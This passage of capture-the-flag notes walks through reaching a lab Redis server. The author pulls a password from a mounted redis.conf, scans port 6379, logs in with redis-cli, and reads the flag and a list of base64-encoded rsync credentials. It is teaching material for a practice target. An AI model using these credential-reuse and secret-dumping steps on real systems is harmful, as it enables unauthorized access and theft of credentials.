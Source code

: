  - in `redis/redis.conf` i found this `requirepass "B65Hx562F@ggAZ@F"`

```
# The filename where to dump the DB
dbfilename dump.rdb
```

- used this `   │  /tmp/mount ▓▒░ tree .`


### Redis

- used the writeup here

rescanned the redis port

```
   │   ~ ▓▒░ nmap -p 6379 10.10.146.124           
PORT     STATE SERVICE
6379/tcp open  redis
```

[[2.1 Redis commands]]

```
redis-cli -h 10.10.146.124 -p 6379 -a B65Hx562F@ggAZ@F
```

- connected to the redis database and got a interactive shell

- listed all the keys and also the flag

```
10.10.146.124:6379> KEYS *
1) "internal flag"
2) "int"
3) "authlist"
4) "marketlist"
5) "tmp"
10.10.146.124:6379> KEYS 1
(empty array)

10.10.146.124:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
10.10.146.124:6379>
```

[[2.2 Redis Commands 2 - interactive]]

- in the authlist i get this
```
10.10.146.124:6379> lrange authlist 0 100
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```
